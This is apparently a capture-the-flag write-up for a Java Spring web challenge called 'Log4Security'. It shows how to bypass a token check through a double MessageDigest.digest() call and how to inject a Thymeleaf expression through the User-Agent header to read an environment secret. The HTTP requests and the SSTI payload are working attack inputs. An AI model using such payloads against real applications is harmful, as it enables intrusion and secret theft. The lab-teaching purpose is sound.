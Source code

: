 # Log4Security - Solution

**Author**: zeyu2001

**Category**: Web

## Step 1 - Enable Logging Through API

In `/api/preferences`, the request body is deserialized into a `UserPreferences` object.

```java
@PostMapping("/api/preferences")
@ResponseBody
public String preferences(@RequestBody UserPreferences preferences) {
    try {
        userPreferences.setName(preferences.getName());
        userPreferences.setLocation(preferences.getLocation());
        userPreferences.setLogging(preferences.getLogging());
        return "OK";
    } catch (Exception e) {
        return "ERROR";
    }
}
```

We can see that the `name`, `location`, and `logging` attributes are modified.

```java
@Component
@Scope(value = "session", proxyMode = ScopedProxyMode.TARGET_CLASS)
public class UserPreferences {
    private String name = "User";
    private String location = "World";
    private Boolean logging = false;
    private Logger logger = null;
    private final String uuid = UUID.randomUUID().toString();

    ...

    public void setLogging(Boolean logging) {
        this.logging = logging;
        if (this.logging == true) {
            this.resetLogger();
        }
        else {
            this.logger = null;
        }
    }
}
```

The following request will enable logging for our user.

```http
POST /api/preferences HTTP/1.1

...

{
    "name":"User",
    "location":"World",
    "logging":true
}
```

## Step 2 - Authentication

In order to view our account logs, we need to supply a `token`.

This must then match the SHA1 hash of the `SUPER_SECRET` environment variable.

```java
@PostMapping("/logs")
public String logs(@RequestParam("token") String token, Model model) {

    MessageDigest digestStorage;
    try {
        digestStorage = MessageDigest.getInstance("SHA-1");
        digestStorage.update(System.getenv("SUPER_SECRET").getBytes("ascii"));
    }
    catch (Exception e) {
        model.addAttribute("logs", "Error getting secret token, please contact CTF admins.");
        return "logs";
    }

    if (userPreferences.getLogging()) {
        userPreferences.getLogger().info("Logging in with token " + token);

        // Log login attempt
        String correctToken = new String(Hex.encodeHex(digestStorage.digest()));
        userPreferences.getLogger().info("Login attempt with token " + token + "=" + correctToken);
    }

    // Invalid token
    if (!token.equals(new String(Hex.encodeHex(digestStorage.digest())))) {
        model.addAttribute("logs", "Invalid token");
        return "logs";
    }
```

But notice that the above logic is a bit strange. If logging is enabled, then `digestStorage.digest()` is called twice. From the [documentation](https://cr.openjdk.java.net/~iris/se/11/latestSpec/api/java.base/java/security/MessageDigest.html), we can clearly see that:

```text
The digest method can be called once for a given number of updates. After digest has been called, the MessageDigest object is reset to its initialized state.
```

Therefore, the second time that `digest()` is called, it is calculating the SHA1 of an empty string.

```
$ echo -n "" | sha1
da39a3ee5e6b4b0d3255bfef95601890afd80709
```

This hash allows us to authenticate successfully and view our logs.

## Step 3 - Log Poisoning and SSTI

First of all, notice that the `User-Agent` request header is logged for every request to `/home`.

```java
@GetMapping("/home")
public String home(@RequestHeader("User-Agent") String userAgent, Model model) {
    if (userPreferences.getLogging()) {
        userPreferences.getLogger().info("Visited by " + userAgent);
    }
    model.addAttribute("name", userPreferences.getName());
    model.addAttribute("location", userPreferences.getLocation());
    return "home";
}
```

Next, notice that the Thymeleaf template uses [expression preprocessing](https://www.thymeleaf.org/doc/articles/standarddialect5minutes.html) - i.e. the `logs` variable is expanded and included as part of the outer expression.

```html
<h1>Account Logs</h1>
<p>Back to <a href="/home">home</a>.</p>
<p th:each="line : ${#strings.arraySplit('__${logs}__', T(org.apache.commons.lang3.StringUtils).LF)}">
    <span th:text="${line}"></span>
</p>
```

Therefore, poisoning our logs with `' + @environment.getProperty('FLAG') + '` would yield:

```java
${#strings.arraySplit('...' + @environment.getProperty('FLAG') + '...', T(org.apache.commons.lang3.StringUtils).LF)}
```

By poisoning the logs using the following,

```http
GET /home HTTP/1.1

...

User-Agent: ' + @environment.getProperty('FLAG') + '

...
```

We would see this in `/logs`.

```html
<p>
    <span>INFO: Visited by SEE{my_f1r57_j4v4_4ppl1c4710n_cd6840f49d28ae36fde53fed813fa2e1d3ba5783}</span>
</p>
```